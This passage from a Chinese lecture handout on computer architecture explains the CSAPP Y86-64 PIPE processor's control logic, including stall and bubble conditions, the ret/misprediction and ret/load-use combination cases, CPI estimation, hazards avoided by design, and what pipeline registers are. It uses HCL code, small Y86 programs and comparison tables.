| 检测条件 | m_stat ∈ {SADR, SINS, SHLT} 或 W_stat ∈ {SADR, SINS, SHLT} | 访存级现算的状态，或写回级寄存器里的状态 |
| set_cc | 置 0 | 异常指令之后的指令不得改条件码 |
| M 寄存器 | bubble | 访存级换成气泡：不写内存，后面的指令不得前进 |
| W 寄存器 | stall | 异常指令停在写回级，处理器停机 |
| F、D、E 寄存器 | 正常（但最终都流不动） | 流水线被 W 的停顿憋住 |
常见问题：为什么状态码要“随指令流动”，而不是各个阶段各报各的？
因为只有这样才能同时解决“多个异常同时出现”和“被取消的指令不该报异常”两个问题。状态码是每条指令的一个字段，异常一出现就写进它自己的 stat 字段，之后这条指令带着这个标记一路走到 W 级才被处理：走得最远的指令最先到 W 级，于是“最靠前的异常优先”自动成立；被气泡取消的指令连同它的 stat 字段一起消失，于是“错误路径上的异常不算数”自动成立。如果把异常各报各的，控制逻辑就要维护一张“哪个异常更靠前、哪些异常已被取消”的复杂表格。
11.11 流水线控制逻辑：检测条件与动作（课件 p.59–60）#
把 11.7–11.10 节的讨论收拢起来，流水线的控制逻辑只要做两件事：检测（这一周期出现了哪种特殊情况）和动作（下一周期各流水线寄存器怎么更新）。课件 p.59 把这两件事画成两张表，表 23 与表 24 照录（并把异常的第四行按教材补上）。
表 23 四种特殊控制情况的检测条件（课件 p.59；教材图 4.64）
| 情况 | 检测条件（HCL 写法） |
|---|---|
| 处理 ret | IRET ∈ {D_icode, E_icode, M_icode} |
| 加载/使用冒险 | E_icode ∈ {IMRMOVQ, IPOPQ} 且 E_dstM ∈ {d_srcA, d_srcB} |
| 误预测的分支 | E_icode == IJXX 且 !e_Cnd |
| 异常 | m_stat ∈ {SADR, SINS, SHLT} 或 W_stat ∈ {SADR, SINS, SHLT} |
表 24 四种特殊控制情况的动作（课件 p.59；教材图 4.66 扩展）
| 情况 | F | D | E | M | W |
|---|---|---|---|---|---|
| 处理 ret | stall | bubble | normal | normal | normal |
| 加载/使用冒险 | stall | stall | bubble | normal | normal |
| 误预测的分支 | normal | bubble | bubble | normal | normal |
| 异常 | normal | normal | normal | bubble | stall |
课件 p.60 给出这四种动作对应的“初始版”控制逻辑 HCL（异常部分按教材补全）。注意每个信号都是“检测条件”的直接翻译：F_stall 在加载/使用或 ret 时为 1；D_stall 只在加载/使用时为 1；D_bubble 在误预测或 ret 时为 1；E_bubble 在误预测或加载/使用时为 1。
# 流水线控制信号的初始版本（课件 p.60；异常相关的三项见 11.10 节）
bool F_stall =
# 加载/使用冒险，或流水线里有 ret 在 D/E/M 级
(E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB }) ||
IRET in { D_icode, E_icode, M_icode };
bool D_stall =
# 只有加载/使用冒险才停住译码级
E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB };
bool D_bubble =
# 误预测的分支
(E_icode == IJXX && !e_Cnd) ||
# 流水线里有 ret 在推进
IRET in { D_icode, E_icode, M_icode };
bool E_bubble =
# 误预测的分支
(E_icode == IJXX && !e_Cnd) ||
# 加载/使用冒险
E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB };这几个信号在时序上有一个共同点：它们都是组合逻辑，在本周期内由各流水线寄存器的字段现算出来，在时钟上升沿之前必须稳定；上升沿一到，各寄存器就按这些信号决定“加载输入、保持原值、还是装入气泡”。所以课件 p.59 的标题写的是 “Action (on next cycle)”——检测到情况是在本周期，动作体现在下一周期。这也解释了为什么 F_stall 里要包含“ret 在 D/E/M 级”这个条件：ret 一进入流水线就要开始停取指，等它走到 W 级（这个条件不再成立）才恢复，正好停 3 拍。
常见问题：F_stall 为什么在加载/使用时也要置 1，这不是“取指级”的事吗？
因为暂停是“整段流水线一起向后让位”：D 级要停住（D_stall），如果 F 不停，取指会继续把新的指令塞进 F 寄存器，等 D 级恢复时 F 里的指令已经被后来者覆盖，流水线就乱序了。教材说“keep the program counter at a fixed value”，指的就是 F 寄存器保持不动。注意 F_stall 的条件比 D_stall 宽：ret 时 F 要停、D 却要注入气泡（因为 ret 后面取进来的指令是错的，必须取消），所以 F_stall 包含两个条件，而 D_stall 只包含加载/使用。
常见问题：D_stall 和 D_bubble 能同时为 1 吗？
按课件 p.60 的初始版本，能——这正是 11.12 节要讲的组合 B 的 bug。D_stall 在加载/使用时为 1，D_bubble 在“有 ret 在流水线里”时为 1；如果同一周期既发生了加载/使用、又有一条 ret 在 D/E/M 级，两个信号就会同时为 1。教材规定“同时置 stall 和 bubble 是错误”，流水线寄存器 D 的行为未定义。修正后的 D_bubble 要排除加载/使用的情况，见 11.12 节。
11.12 两朵乌云：控制组合 A 与组合 B（课件 p.61–66）#
课件 p.58 用一句 “Are we done?” 把话题引到这里：三种特殊情况各自处理完，还不算完——还要看它们同时出现时的组合。
课件 p.61 只有一句英文：“The beauty and clearness of the CSAPP PIPE processor, which executes Y86 instructions efficiently, is at present obscured by two clouds…”（这句仿的是胡克《显微图集》序言里的名句）。所谓“两朵乌云”，就是 11.11 节的检测/动作表在“两种特殊情况同时出现”时会暴露的两个问题。教材 4.5.8 节专门讨论了它们，并说组合 B 的 bug“只有靠系统的分析才能发现，光跑普通程序几乎不可能撞上”。
课件 p.62 定义这两种组合。第一种是组合 A，即一条不跳转的条件跳转在执行级，同时有一条 ret 在跳转目标处（因为它被预测为跳转而被取进来了）。此时误预测检测（E_icode == IJXX && !e_Cnd）与 ret 检测（IRET in {D_icode, E_icode, M_icode}）同时成立。第二种是组合 B，即一条从内存读到 %rsp 的指令（popq %rsp 或 mrmovq ...,%rsp）在执行级，而紧随其后的 ret 在译码级——前半是加载/使用冒险，后半是 ret 检测，两者同时成立。
# 组合 A（教材练习题 4.37）：不跳转的分支 + 目标处的 ret
0x000: irmovq Stack,%rsp
0x00a: xorq %rax,%rax # ZF = 1
0x00c: jne t # 预测跳转，实际不跳转
0x015: irmovq $1,%rax # 顺序执行的下一条
0x01f: halt
0x020: t: ret # 错误路径上的 ret
0x021: irmovq $7,%rdx # 错误路径上的下一条
0x02b: halt
0x040: .pos 0x40
0x040: Stack:
# 组合 B（教材练习题 4.38）：popq %rsp 之后紧跟 ret
0x000: irmovq $0x100,%rsp
0x00a: irmovq $0x110,%rax
0x014: rmmovq %rax,0(%rsp) # M[0x100] = 0x110
0x01e: irmovq $0x040,%rbx
0x028: rmmovq %rbx,0x10(%rsp)# M[0x110] = 0x040（返回地址）
0x032: popq %rsp # 加载到 %rsp
0x034: ret # 用 %rsp：组合 B
0x035: irmovq $1,%rax # 错误路径，应被取消
0x03f: halt
0x040: .pos 0x40
0x040: irmovq $9,%rdx
0x04a: halt先看组合 A 的处理（课件 p.63）。把两行的动作叠加：ret 要求 F stall、D bubble；误预测要求 D bubble、E bubble。合并结果是 F stall、D bubble、E bubble——正好等于“按误预测处理，外加 F 停一拍”。这个组合是安全的：下一周期 PC 选择逻辑会用 M_valA 把 PC 拨到顺序下一条（jne 的 valP），F 寄存器里存什么其实不要紧；而 D 级的 ret 被气泡取消，E 级的错取指令也被气泡取消。课件 p.63 的结论是 “JXX nullifies ret in EXE; No additional logic is needed”——不需要为组合 A 增加任何逻辑，初始版本就能正确处理。模拟器实测：这段程序在最终 PIPE 上 11 个周期正常结束，%rax = 1（顺序路径的 irmovq），错误路径的 irmovq $7,%rdx 没有执行。
再看组合 B 的问题（课件 p.64–66）。把两行的动作叠加：ret 要求 F stall、D bubble；加载/使用要求 F stall、D stall、E bubble。合并结果里 D 同时被要求 bubble 和 stall——这正是教材规定的非法组合，流水线寄存器 D 的动作未定义。课件 p.64 的动作表把这一格写成 “bubble + stall”，与教材的说法一致。更麻烦的是，这个 bug 在普通程序里几乎不会出现：它要求“加载指令恰好写 %rsp”并且“紧接着一条 ret”，而 ret 一般出现在过程末尾，前面紧挨着一条写 %rsp 的加载指令的情况很罕见。
正确的做法（课件 p.65–66）是让加载/使用冒险优先：组合 B 出现时，只按加载/使用处理（F stall、D stall、E bubble），把 ret 多按在译码级一个周期；下一周期加载/使用已经解除，D 级的 ret 才被正常处理（开始停取指、注入气泡）。课件 p.66 给出修正后的 D_bubble：在“有 ret 在流水线里”这一项上再与一条“不是加载/使用”的条件：
# 修正后的 D_bubble（课件 p.66）：ret 引起的气泡要排除加载/使用的情况
bool D_bubble =
# 误预测的分支
(E_icode == IJXX && !e_Cnd) ||
# 流水线里有 ret，但不是加载/使用冒险（让加载/使用优先）
IRET in { D_icode, E_icode, M_icode } &&
!(E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB });模拟器实测能把这个 bug 抓出来：组合 B 程序在修正后的控制逻辑上 17 个周期正常结束，%rdx = 9（返回到 0x040 执行了那条 irmovq）；在初始版控制逻辑上第 8 周期就报告 “D stall and bubble both set”，流水线寄存器 D 的状态未定义，最终 %rdx = 0、%rax = 1、%rsp = 0x110——结果全错。这正是教材说的“即使设计通过了很多测试，也可能藏着这样的 bug”。
表 25 两种控制组合的动作合并（课件 p.63–66；教材 4.5.8）
| 情况 | F | D | E | M | W | 结论 |
|---|---|---|---|---|---|---|
| 处理 ret（单独） | stall | bubble | normal | normal | normal | 正常 |
| 加载/使用（单独） | stall | stall | bubble | normal | normal | 正常 |
| 误预测（单独） | normal | bubble | bubble | normal | normal | 正常 |
| 组合 A（ret + 误预测） | stall | bubble | bubble | normal | normal | 正确，按误预测处理即可 |
| 组合 B（ret + 加载/使用）叠加 | stall | bubble+stall | bubble | normal | normal | 非法组合，会出错 |
| 组合 B 的正确处理 | stall | stall | bubble | normal | normal | 加载/使用优先，ret 晚一拍 |
图 16 把两种组合的“现场”画在一起：组合 A 里，执行级的 jXX 判定不跳转、译码级的 ret 是错误路径取进来的，两者同时要求动作；组合 B 里，执行级是写 %rsp 的加载指令、译码级是紧跟着的 ret，加载/使用与 ret 检测同时成立。前者的动作正好合并成“按误预测处理”，后者必须在 D 寄存器上二选一，于是要定优先级。
图 16 两种控制组合的现场（课件 p.62–p.65；教材练习题 4.37、4.38）：左图组合 A 里，执行级的不跳转判定与译码级的 ret 检测同时成立，动作可自然叠加；右图组合 B 里，加载/使用与 ret 检测同时成立，D 寄存器不能既暂停又注气泡，必须定优先级（加载/使用优先，ret 晚一拍）
常见问题：为什么组合 A 不用改逻辑，组合 B 就必须改？
差别在于两个动作在同一个寄存器上是否冲突。组合 A 里误预测要求 D、E 都是 bubble，ret 要求 D 是 bubble；两者对 D 的要求相同（bubble），对 F 的要求可以叠加（stall），没有冲突，所以初始逻辑自然给出一个合法且正确的动作。组合 B 里加载/使用要求 D 做 stall（保持原值、下周期重试），ret 要求 D 做 bubble（取消）；同一个寄存器既要保持又要清空，物理上做不到，设计者必须选一个。选“加载/使用优先”是正确的：ret 多等一拍没有副作用，而加载/使用不先解决，译码级的 ret 就永远拿不到正确的 %rsp。
⚠ 课件 p.50、p.54、p.55 的地址与正文程序不一致
2026 版（以及 2025 版）的这几页沿用了更早版本课件的程序，讲义叙述统一按 p.46、p.48、p.53 的代码：
- p.50 的“Handling Misprediction”时序图里，jne 的目标是 0x016、目标后一条是 0x020、halt 在 0x015，而 p.46、p.48 的代码用的是 0x019、0x023、halt 0x018。p.49 的时序图用的已经是新地址，只有 M_valA = 0x007 这一处笔误（见 11.8 节）；p.51 只有检测条件表，上面没有地址。
- p.55 把 ret 写成 0x026，应为 0x02a（p.53 的程序汇编后 ret 在 0x02a，其后三条指令在 0x02b/0x035/0x03f）；p.55 的返回点写的是 0x013，与 p.53 一致。
- p.54 整页沿用的是另一个演示程序（图中标为 demo-ret）的地址：ret 在 0x033、返回点在 0x052，与 p.53 的程序不是同一段代码（同页 W 级的 valM = 0x0e 也对不上）。“返回点 0x014”只出现在 2025 版。
p.57 是检测逻辑图，上面没有地址，不受影响。
常见问题：组合 A 里的 ret 被取消了，那它压栈/弹栈的影响怎么办？
ret 的影响只有“从栈顶读一个值作为 PC”，它不写寄存器、不写内存、不改条件码。被气泡取消时，它连“读内存”都不会真正生效（气泡在 E 级取代它，后面不会走到 M 级去读数据存储器）；而 PC 的选择由 M_valA 决定（误预测恢复），与这条 ret 无关。所以取消 ret 是安全的。反过来，如果组合 A 里那条错误路径上的指令是一条会写内存的指令（比如 rmmovq），也一样能安全取消：它在 E 级就被气泡取代，根本到不了 M 级去写内存。
11.13 PIPE 的性能与设计原理（课件 p.67–68；教材 4.5.9）#
流水线的目标是“每个周期完成一条指令”，也就是 CPI = 1。PIPE 在大多数周期里做到了，但有三种情况会往流水线里注入气泡，使 CPI 略大于 1。教材 4.5.9 把这个偏差写成三项罚项之和：
# CPI 的分解（教材 4.5.9）
# Ci：完成的指令数；Cb：注入的气泡数
# CPI = (Ci + Cb) / Ci = 1.0 + Cb / Ci
# = 1.0 + lp + mp + rp
# lp：加载/使用的罚项（每次停 1 拍）
# mp：误预测分支的罚项（每次 2 拍）
# rp：ret 的罚项（每次 3 拍）把每种情况的“指令出现频率 × 该频率下出问题的比例 × 每次的气泡数”乘起来，就得到这一项的平均代价。教材给了一组有代表性的统计值（表 26）：加载指令占全部指令的 25%，其中 20% 造成加载/使用；条件分支占 20%，其中 40% 不被采纳（也就是本讲“总是预测跳转”会猜错的那 40%）；ret 占 2%。算出来的三项分别是 0.05、0.16、0.06，合计 0.27，于是 CPI ≈ 1.27——离理想的 1.0 只差 27%。
表 26 PIPE 的 CPI 估算（教材 4.5.9）
| 原因 | 指令出现频率 | 条件发生频率 | 每次气泡数 | 罚项 |
|---|---|---|---|---|
| 加载/使用（lp） | 0.25 | 0.20 | 1 | 0.05 |
| 误预测分支（mp） | 0.20 | 0.40 | 2 | 0.16 |
| ret（rp） | 0.02 | 1.00 | 3 | 0.06 |
| 合计 | — | — | — | 0.27（CPI = 1.27） |
这张表也指出了改进的方向：三项里最大的是误预测分支（0.16），因为它既常见（20% 的指令是条件分支）、本讲的预测策略又只有 60% 的正确率、每次还要取消两条指令。如果换成正确率 65% 的 BTFNT 预测（向后跳转猜跳、向前跳转猜不跳），mp 降到 0.20 × 0.35 × 2 = 0.14，CPI 变成 1.25；如果换成现代处理器那种 95% 以上正确率的分支预测器，mp 只剩约 0.02，CPI 逼近 1.02。反过来，加载/使用和 ret 的罚项小，是因为这两类情形本来就不多，而且每次都只停固定的几拍。
不过，CPI 并不是流水线带来的全部收益。回想 11.1 节：SEQ 的 CPI 也是 1（一周期一条指令），PIPE 的 CPI 是 1.27，看上去 PIPE 反而更差——但两者的时钟周期长度相差约 5 倍：SEQ 的周期要容纳取指、译码、执行、访存、写回整条路径（课件 p.6 的 300 ps 加上寄存器 20 ps），PIPE 的周期只需容纳其中一个阶段（约 300/5 + 20 ≈ 80 ps）。所以同样一条指令，PIPE 花 1.27 个 80 ps，SEQ 花 1 个 320 ps，实际时间之比约 1.27 : 4，PIPE 快 3 倍多。流水线提高的是吞吐量，而不是 CPI——这个区别在 11.1 节已经用洗车的比喻讲过，这里是它的定量版本。
用模拟器对比几个小程序的周期数，也能看出“填充”的影响（表 27）。同样的程序，SEQ 的周期数就是指令数（一条一周期）；PIPE 的周期数约等于指令数加 4（五级流水线填满需要 4 个额外周期），再加上气泡。程序越短，填充所占比例越大；程序越长，PIPE 的“每周期完成一条”越接近理想。
表 27 同一段程序在 SEQ 与 PIPE 上的周期数（模拟器）
| 程序 | 实际执行的指令数 | SEQ 周期数 | PIPE 周期数 | 气泡数 |
|---|---|---|---|---|
| demo-basic（4 条 irmovq + halt） | 5 | 5 | 9 | 0 |
| demo-h0（无 nop，有转发） | 4 | 4 | 8 | 0 |
| demo-luh（加载/使用） | 7 | 7 | 12 | 1 |
| demo-j（误预测，错误路径不执行） | 7 | 7 | 13 | 2 |
| demo-retb（ret，错误路径不执行） | 6 | 6 | 13 | 3 |
课件最后两页（p.67、p.68）是两则“CSAPP 笑话”：p.67 调侃流水线要同时理解 SEQ、SEQ+、pipeline registers、stalling、bubbling、forwarding、branch prediction、ret 以及它们的排列组合；p.68 调侃“学完 SEQ、SEQ+、PIPE 之后，你就会理解为什么现代 CPU 不这么设计了”。这两则笑话其实点出了 PIPE 的定位：它是一个教学模型，把流水线的全部核心问题（数据相关、控制相关、异常、特殊情况组合）用最小的硬件呈现出来；真实的现代处理器在这些机制之上还叠加了乱序执行、多发射、深流水线、分支预测器、存储层次等大量复杂性，但处理相关与冒险的基本思路——转发、停顿、取消、优先级——都是从这里开始的。
回头把 PIPE 的设计决定归纳一下，可以得到七条原理（对照第 10 讲 SEQ 的六条原理）：
（1）阶段划分与 SEQ 一致，硬件尽量复用。 PIPE 的部件与 SEQ 几乎完全相同，只多了流水线寄存器和少量控制逻辑。阶段边界就是流水线寄存器的位置，所以“从 SEQ 到 PIPE”是一次渐进式的改造，而不是重新设计。
（2）一条指令的全部信息锁在同一个流水线寄存器里。 每条指令的 stat、icode、valC、dstE、dstM 等字段随它一起流动，写回阶段用的寄存器号一定来自写回阶段那条指令自己。教材用大写前缀（D_、E_、M_、W_）强调这一点，用小写前缀（d_、e_、m_）区分“本阶段现算的信号”。
（3）转发优先于停顿。 只要值已经产生（在 E、M、W 级的任何一处），就把它直接送回译码级，不停顿。五个转发来源按“最早阶段优先”排序，以匹配顺序语义。
（4）只为真正无法转发的情形停顿。 加载/使用是唯一需要停的数据冒险，且只停一拍；停顿条件写得越窄，性能越好。这一条是 11.7 节与作业 4.57A 的核心思想。
（5）控制相关用“猜 + 取消”，取消点选在副作用产生之前。 分支总是猜跳转，猜错则在 D、E 两级注入气泡；检测放在执行级，是因为那时错误路径上的指令还没写任何状态。ret 不猜，用 3 个周期的停顿换取确定性。
（6）特殊情况必须系统分析其组合。 单独看每个检测条件和动作都对，合在一起可能出现非法的 bubble + stall。组合 A、B 的分析不是“多此一举”，而是发现隐藏 bug 的唯一途径。
（7）状态码随指令流动，异常处理统一。 每条指令在流水线里带着自己的 stat；异常指令走到写回级才停机，同时用 set_cc、M_bubble、W_stall 阻止后面的指令改状态。这个机制同时解决了“多个异常谁优先”和“被取消的指令不报异常”两个问题。
常见问题：既然 PIPE 的 CPI 是 1.27、比 SEQ 的 1 还大，为什么还说流水线快？
因为 CPI 衡量的是“每条指令花几个时钟周期”，而两种设计的时钟周期长度不同。SEQ 的一个周期要走完整条数据通路（约 320 ps），PIPE 的一个周期只走一个阶段（约 80 ps）。把 CPI 乘以时钟周期才是真正的每条指令时间：SEQ 约 320 ps，PIPE 约 1.27 × 80 ≈ 100 ps，快三倍多。这也提醒我们：比较处理器性能时不能只看 CPI，也不能只看主频，要看两者的乘积（以及程序本身的指令数）。
常见问题：PIPE 里最深的一条路径是什么？它决定了时钟周期吗？
流水线把组合逻辑切成了五段，所以时钟周期由每一级内部（以及跨级的反馈路径）中最长的那条组合路径决定，而不是 SEQ 那种"PC 出发、走完整条数据通路"的路径。典型的长路径有三条：E 寄存器 → ALU → e_valE → 译码级的转发选择器 → E 寄存器的输入；M 寄存器 → 数据存储器读出 → m_valM → 转发选择器；M/W 寄存器 → Select PC → 指令存储器 → Predict PC → F 寄存器。前两条正是转发带来的新路径——把执行、访存两级的结果接回译码级的选择器，必然拉长这条链；第三条是预测与恢复的代价。转发带来的额外延迟是否可接受，取决于具体工艺与综合结果，教材没有展开；可以确定的是，转发把 E、M 两级的结果接回了译码级，这条链比没有转发时更长，真实处理器要做仔细的时序分析，有时宁可多分一级流水来缩短它。
11.14 PIPE 的设计如何天然避免了另一些冒险（教材 4.5.5）#
前面十一节花了大量篇幅处理数据相关和两种控制相关，一个自然的问题是：别的冒险都到哪去了？ 按教材 4.5.5 侧栏的分类，相关有 RAW、WAR、WAW 好几种，状态还有条件码、存储器、程序计数器，为什么本讲只需要处理“寄存器写后读”和两种控制相关？这不是运气，而是五级按序流水线加“每级一套硬件”这一组设计带来的结果。把每种可能的冒险逐一列出来检查，就能看出它们各自被哪一条设计决定挡住了（表 28）。
表 28 PIPE 中不会出现的冒险及其原因
| 可能的冒险 | 在 PIPE 中为什么不会出现 | 依赖的设计 |
|---|---|---|
| 结构冒险：同一周期两条指令争同一个部件 | 每条指令在每个阶段至多用该阶段的一套部件一次；取指用指令存储器、访存用数据存储器，两者分开；寄存器文件有 2 个读口和 2 个写口 | 第 9 讲 9.8 节的设计取舍：存储器分离、寄存器文件四端口，SEQ 已定下、PIPE 沿用 |
| 寄存器 WAW（两条指令写同一寄存器） | 所有写都只在 W 级发生，指令按程序顺序到达 W 级，后写的必然排在前写的之后 | 写集中在一级 + 按序流动 |
| 寄存器 WAR（后面写、前面读） | 读只在 D 级、写只在 W 级；按序流动使“读的指令”一定先于“写它的指令”到达 D 级 | 读早写晚 + 按序流动 |
| 内存 RAW / WAR / WAW | 读写都只在 M 级发生，按序到达；同一条指令要么读要么写（mem_read 与 mem_write 互斥） | 访存集中在 M 级 + 按序流动 |
| 条件码 RAW | CC 只在 E 级写（set_cc），也只在 E 级读（cond）；读 CC 的指令在程序顺序上晚于写 CC 的指令，于是也晚到达 E 级 | 读写同在一级 + 按序流动 |
| 顺序程序的 PC | 取指阶段用预测选出下一个 PC；没有误预测时每周期按 valP 前进，等效于顺序 | 预测 + 恢复（11.8、11.9 节） |
| 条件不成立的 cmov（“该写没写”） | 执行级把 e_dstE 改成 RNONE，写回级不写任何寄存器，没有中间态泄漏到 ISA | 条件传送在执行级定案，e_dstE 合并 |
| 自修改代码（分开的指令/数据存储器之间本会有“内存 RAW”） | PIPE 不处理，假定程序不修改自己的指令 | 与教材一致的血统简化（Y86-64 假定代码与数据分离） |
这张表可以归纳成三条原则。第一，按序流动、从不超车：任何一条指令都不可能越过它前面的指令到达某个阶段，于是“谁先谁后”在流水线的每一级都保持不变。第二，每种状态只在一个阶段写，而且读不晚于写：程序寄存器写在 W、读在 D；条件码写在 E、读在 E；存储器读写都在 M；状态码随指令流动、最后在 W 级生效。第三，每级一套硬件，每条指令对每类资源至多用一次：取指用指令存储器、访存用数据存储器；寄存器文件的两个读口、两个写口足够任何一条指令用（连 popq 的同时双写也有端口），所以同一周期里不会出现“两条指令抢一个部件”的结构冒险。
这三条原则不是流水线自己发明的，而是第 9 讲 9.8 节在“ISA 与硬件接口”层面就做出的设计取舍的直接后果：把存储器拆成指令存储器与数据存储器、给寄存器文件四个端口、规定每条 Y86-64 指令编码是固定长度且至多两个源、两个目的寄存器——这些决定当时是为了让硬件简单、让译码规则，但一旦沿用下来，PIPE 就自然获得了“无结构冒险、无 WAR/WAW”的性质。
反过来看，也就能理解本讲的篇幅分布：唯一跨多个阶段的状态是寄存器文件——读在 D 级，写在 W 级，两者相差 3 个阶段。正是这个跨级安排，同时造成了“写后读”的危险（11.3–11.7 节的主要内容）和“WAR/WAW 不会发生”的安全。流水线的绝大多数麻烦，都来自这一个跨级的寄存器文件。
下面这段程序同时包含“内存 RAW”“条件码 RAW”“寄存器 WAW”三种相关，却不包含任何会触发暂停的情形。用本讲的 PIPE 跑，控制气泡数为 0，结果与 ISA 逐指令执行完全一致：
# prog-zero.ys：内存 RAW、条件码 RAW、寄存器 WAW 同时出现，却一次也不用暂停
0x000: irmovq $0x100,%rdx
0x00a: irmovq $0x40,%rax
0x014: rmmovq %rax,0(%rdx) # M[0x100] = 0x40
0x01e: mrmovq 0(%rdx),%rcx # 内存 RAW：读刚写过的地址，不需要暂停
0x028: nop
0x029: subq %rcx,%rax # 0x40 - 0x40 = 0，条件码 ZF=1
0x02b: jle done # 条件码 RAW：紧接着用刚写的 CC；跳转成立，与预测一致
0x034: irmovq $1,%rbx # 不执行
0x03e: done: irmovq $2,%rbx # 寄存器 WAW：连续写 %rbx
0x048: irmovq $3,%rbx
0x052: halt模拟器结果：14 个周期完成 10 条执行过的指令（10 条加 4 个填充周期），没有一次加载/使用冒险、误预测或 ret 检测；M[0x100] = 0x40，%rcx = 0x40，%rbx = 3（最后一次写胜出），%rax = 0。如果换成一个会“超车”的乱序机器，同样这段代码就要为 WAW 和内存相关额外操心——这正是 11.16 节要讲的现代处理器的处境。
★ 三条原则
（1）按序流动、从不超车。 指令在流水线里保持程序顺序，后一条不可能先到某个阶段。
（2）每种状态只在一个阶段写，读不晚于写。 写在 W、读在 D；CC 与存储器都在同一级读和写。
（3）每级一套硬件，每条指令每类资源至多用一次。 存储器分离、寄存器文件四端口，因此没有结构冒险。
唯一跨级的状态是寄存器文件（读在 D、写在 W），所以全部数据冒险的处理都围绕它展开。
常见问题：PIPE 真的没有结构冒险吗？那为什么课件还专门讲“每级一套硬件”？
严格地说，PIPE 只保证“本讲这台 PIPE”没有结构冒险：每个阶段内部恰好一套部件，取指与访存用的又是两个独立的存储器。这是设计时特意选择的结果，不是流水线自动带来的。换成多发射（每周期同时发射多条指令）的机器，每级只有一套部件就不够了，结构冒险立刻重新出现——这正是现代处理器要有多套执行单元、多个访存端口的原因（11.16 节）。
11.15 流水线寄存器的本质是什么（教材 4.5.2–4.5.3）#
第 11.2 节把五个流水线寄存器画进了结构图，第 11.11 节又把它们的更新归成“正常、暂停、气泡”三种模式，但一直没有正面回答一个更根本的问题：这东西本质上是什么？ 讲义的整个控制逻辑都建立在它上面，值得单独说清楚。
物理上，它就是一排时钟触发器。 与 PC 寄存器同类：一组带使能端和复位端的 D 触发器，时钟上升沿把输入端的值锁存到输出端，在下一个上升沿之前保持不变。第 11.5 节图 8 的三种模式，落到处就是这些触发器的两个控制信号：stall = 1 时使能端关闭、输出保持原值；bubble = 1 时复位端起作用、输出被置成 nop 的编码；两者都为 0 时正常锁存输入。所以“暂停”和“气泡”听起来像两个复杂的机制，硬件上只是在每个触发器旁边多接了两根线。
逻辑上，它把 SEQ 里“只存在于导线上”的一次性信号截断并保存下来。 回想第 10 讲 10.13 节的讨论：在 SEQ 里，valA、valE 这些中间值并不在任何寄存器里，它们只是两根导线之间的电平，一个周期结束就消失了；正因为所有阶段都在同一周期里串行完成，它们才“够用”。流水线把这个前提打破了——译码阶段读出的 valA 要到执行阶段才用，中间隔了一个周期。于是必须在阶段边界上把“这条指令后面还要用的东西”锁存下来。用第 10 讲的话说：流水线寄存器就是 SEQ 里那些导线上的信号在阶段边界上的快照。
由此可以给流水线寄存器一个更好的定义：它保存的不是“指令”，而是一条指令在剩余阶段还需要的全部信息，像一份随指令走的档案袋。第 11.2 节的表 5 逐字段列出了每个寄存器装什么，表 5 现在再补一列“位数”，可以看清这个档案袋有多大：F 寄存器只有 64 位的预测 PC；D 寄存器把刚取出的指令的全部字段（icode、ifun、rA、rB、valC、valP）和状态码装进去；E 寄存器最肥，装着两个操作数、常数和四个寄存器号；M、W 寄存器随着字段被逐级用掉而变瘦。五个寄存器合计约 720 位（90 字节），与 15 个程序寄存器的 960 位（120 字节）在同一个量级——PIPE 用这样一份“影子状态”换来了约 5 倍的吞吐量。
★ 流水线寄存器的三个性质
（1）它属于微体系结构状态，不属于 ISA。 程序员看不到它，所以可以随意暂停、清空。误预测时那两条错误路径上的指令之所以能被“取消”而不留痕迹，正是因为它只改了流水线寄存器，没有碰程序员可见状态。
（2）它存的是半成品，不是指令原文。 字段已经被拆好（icode、rA、valC……），操作数已经读出（valA、valB），控制信号已经算好（dstE、dstM、srcA、srcB）。指令编码本身早就可以丢掉，反而是 valP 这种“原文里没有、算出来才有”的中间值必须留下。
（3）所有控制动作都可以统一成对它的一种操作。 正常、暂停、气泡——11.11 节那四个控制信号（F_stall、D_stall、D_bubble、E_bubble）加上异常用的 M_bubble、W_stall，本质上都是在每个周期决定“这五个寄存器各自用哪种模式”。PIPE 的控制逻辑之所以能写成几行 HCL，就是因为控制对象是同一类东西。
用这个视角回看全讲的机制，逻辑会变得非常统一：转发是“不经过流水线寄存器、直接把后级的值送回前级”；暂停是“让某个寄存器暂时不更新”；气泡是“往某个寄存器里写一条假指令”；冲刷是“把前面几个寄存器一起清成气泡”。四种手段操作的是同一个对象——阶段边界上那排触发器。
常见问题：流水线寄存器和 %rax 这类程序寄存器是什么关系？
两者完全不同。%rax 等 15 个程序寄存器是 ISA 状态，存在寄存器文件里，一份，程序能看到；流水线寄存器是微体系结构状态，存在各级边界上，每条在飞的指令各有一套，程序看不到。它们不能互相替代：流水线寄存器数量随流水级数增长，内容随阶段变化，删掉几个程序寄存器程序就跑不了，而删掉几个流水线寄存器只是把流水线变回“半串行”。教材用大写前缀（D_icode）与小写前缀（d_srcA）区分“寄存器里的字段”和“本阶段现算的信号”，根源也在这里：前者是微体系结构状态，后者是组合逻辑。
11.16 现代 CPU 还用这套流水线吗？（课件 p.67–68）#
课件最后两页开了两个玩笑：p.67 说流水线要同时理解 SEQ、SEQ+、pipeline registers、stalling、bubbling、forwarding、branch prediction、ret 以及它们的排列组合；p.68 说“学完 SEQ、SEQ+、PIPE 之后，你就会理解为什么现代 CPU 不这么设计了”。这两句话一半是调侃，一半是实话：现代 CPU 的流水线在原理上几乎完全沿用本讲，但在结构上比 PIPE 复杂一个数量级。
先说“沿用”的部分。把现代处理器的流水线拆开看，五件事与本讲一一对应：把执行切成若干级、级间用寄存器锁存；用旁路（转发）网络把后级结果送回前级；对加载/使用冒险做互锁；对分支做预测，猜错就冲刷；对异常做“状态随指令走”。换任何一款 x86 或 ARM 核，这套骨架都在，只是级的数目、每级宽度、旁路的条数与预测器的复杂度不同。
再说“变了”的部分。表 29 以本讲的 PIPE 与一款现代高性能核（以 Intel 12 代酷睿的 Golden Cove 大核为例，数字取自公开资料，只求量级）作对比。
表 29 PIPE 与现代高性能核的对照（现代核数字为公开资料的量级）
| 项目 | PIPE（本讲） | 现代高性能核（例：Golden Cove 级） |
|---|---|---|
| 流水线深度 | 5 级 | 14～20 级（越深时钟越高，误预测代价越大） |
| 每周期取指/译码宽度 | 1 条 | 最多 6 条（超标量） |
| 执行方式 | 严格按序 | 乱序执行：窗口内可以重排 |
